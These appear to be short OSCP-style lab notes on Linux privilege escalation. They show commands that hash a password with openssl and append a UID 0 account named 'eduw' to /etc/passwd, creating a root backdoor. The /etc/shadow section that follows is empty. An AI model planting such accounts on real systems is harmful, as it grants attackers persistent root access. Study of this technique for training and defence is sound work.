 #### /etc/passwd
```
┌─[root@edu-virtualbox]─[/home/edu/OSCP]
└──╼ #openssl passwd test
$1$AjcbF6Z3$txY0x34m/KGP/AeiBbiDB1         //  Generates a hash for the password "test"

┌─[root@edu-virtualbox]─[/home/edu/OSCP]
└──╼ #echo 'eduw:$1$AjcbF6Z3$txY0x34m/KGP/AeiBbiDB1:0:0:root:/root:/bin/bash' >> /etc/passwd

┌─[root@edu-virtualbox]─[/home/edu/OSCP]
└──╼ #su eduw

```

#### /etc/shadow
Note: this is very risky, as you'll need to change an existing password.
```

```

